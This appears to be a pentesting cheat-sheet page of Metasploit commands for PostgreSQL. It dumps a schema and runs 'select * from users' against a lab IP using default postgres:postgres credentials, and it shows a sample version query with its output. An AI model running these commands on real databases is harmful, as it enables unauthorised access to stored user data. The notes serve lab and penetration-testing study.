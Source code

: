 --- ---

<h2>Commands</h2>

Take notes that your sessions should also be in background for those steps to work

Extract Data
```
# Dump the schema
use auxiliary/scanner/postgres/postgres_schemadump
run postgres://postgres:postgres@172.28.101.51/postgres

# Select information from a specific table
use auxiliary/admin/postgres/postgres_sql
---> SET OPTION (DATABASE, SQL, ... TO FIT THE NEEDS)
run postgres://postgres:postgres@172.28.101.51/postgres sql='select * from users'
```

- Simply change the SQL= query to the desired search


Version
```
msf6 > use admin/postgres/postgres_sql
msf6 auxiliary(admin/postgres/postgres_sql) > run postgres://user:password@MACHINE_IP/database_name sql='select version()'

[*] Running module against IP

Query Text: 'select version()'
==============================

    version
    -------
    PostgreSQL 10.5 on x86_64-pc-linux-musl, compiled by gcc (Alpine 6.4.0) 6.4.0, 64-bit

[*] Auxiliary module execution completed